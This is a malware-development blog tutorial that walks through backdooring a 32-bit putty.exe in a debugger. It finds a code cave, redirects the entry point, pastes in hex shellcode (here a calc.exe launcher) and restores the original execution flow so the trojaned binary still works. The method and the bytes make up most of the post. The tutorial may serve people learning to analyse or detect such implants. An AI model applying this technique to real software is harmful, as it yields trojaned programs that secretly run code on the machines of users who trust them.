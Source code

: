 ```yaml
---
title: MalDev | Putty
author: Zeropio
date: 2023-01-29
categories: [Malware, Development]
tags: [malware, windows]
permalink: /malware/development/putty-1
---
```


# Enumeration

First, debug a 32bit **putty.exe** in x32dbg. There is a inital breakpoint in the binary:
```
Address=00454AD0
Module/Label/Exception=<putty.exe.EntryPoint>
State=One-time
Disassembly=push 60
Hits=0
Summary=entry breakpoint
```

We need to find a **code cave** in the binary. The `.text` section it is executable:
```
Address=00401000
Size=0005C000
Party=User
Page Information=".text"
Content of section=Executable code
Allocation Type=IMG
Current Protection=ER---
Allocation Protection=ERWC-
```

Also, it can be seen at the end of the file a bunch of empty memory. This can be a code cave:

![Untitled](/assets/img/maldev/putty/2023-01-29_19-09.png)

We will add a breakpoint there and copy the address (**0045C961**) for later. We will do a jump from the first instruction (**00454AD0**) to our code cave, and then come back to the main program. Copy the firsts instructions of the program:
```
00454AD0 | 6A 60               | push 60                          |
00454AD2 | 68 B07A4700         | push putty.477AB0                |
00454AD7 | E8 08210000         | call putty.456BE4                |
00454ADC | BF 94000000         | mov edi,94                       | edi:"LdrpInitializeProcess"
00454AE1 | 8BC7                | mov eax,edi                      | edi:"LdrpInitializeProcess"
```

---

# Code Cave

The first instruction (**00454A**) can be overwrite as simply as selecting and pressing <kbd>Space</kbd> (or right click and `Assemble`). We will change the value to:
```assembly
jmp 0x0045C961
```

Which is the direction of the code cave. Pressing <kbd>Enter</kbd> in **0045C961** will now jump to the code cave.

![Untitled](/assets/img/maldev/putty/2023-01-29-19-20.gif)

Now we will overwrite the two first entries of the shellcode to write on the stack with the functions `pushad` and `pushfd`. Select a bunch of lines from the code cave, copy our shellcode, press <kbd>Ctrl</kbd> + <kbd>E</kbd> and paste it. As we can see, our previos empty code cave is now filled with our shellcode. In this case, a 32bit calc.exe:
```
fc e8 82 00 00 00 60 89 e5 31 c0 64
8b 50 30 8b 52 0c 8b 52 14 8b 72 28
0f b7 4a 26 31 ff ac 3c 61 7c 02 2c
20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52
10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1
51 8b 59 20 01 d3 8b 49 18 e3 3a 49
8b 34 8b 01 d6 31 ff ac c1 cf 0d 01
c7 38 e0 75 f6 03 7d f8 3b 7d 24 75
e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b
58 1c 01 d3 8b 04 8b 01 d0 89 44 24
24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a
8b 12 eb 8d 5d 6a 01 8d 85 b2 00 00
00 50 68 31 8b 6f 87 ff d5 bb f0 b5
a2 56 68 a6 95 bd 9d ff d5 3c 06 7c
0a 80 fb e0 75 05 bb 47 13 72 6f 6a
00 53 ff d5 63 61 6c 63 2e 65 78 65
00
```

![Untitled](/assets/img/maldev/putty/2023-01-29_19-29.png)

We can save the state of the binary with <kbd>Ctrl</kbd> + <kbd>P</kbd> and save it as a another PE. If we run the binary now, the shellcode will be executed.

Now we need to find where the calc is being launched. Adding breakpoints to each `call` in the shellcode and executing it show that the **FFD5** in the direction **0045CA06** launch the *calc.exe*. Also, we can found that the last call is the call to exit.

---

# Retrieving the PE 

Now that we know where our shellcode execute and which is the function that exists (the last `call`), we need to make a jump back to the program. We need to overwrite the `push 0` of our shellcode to jump to another space in the code cave.

Now we need to restore the original flow of the program. The first two lines after the jump will be overwritten by:
```
popfd
popad
```

Take the instructions we overwritten before as hex value:
```
6A 60 68 B0 7A 47 00
```

And replaced the empty code caves after the `popad`. And lastly, jump back to the instruction **00454AD7**. We can see the final output:

![Untitled](/assets/img/maldev/putty/2023-01-29_19-51.png)

---

# Final

We can see the final work:

![Untitled](/assets/img/maldev/putty/2023-01-29-20-00.gif)


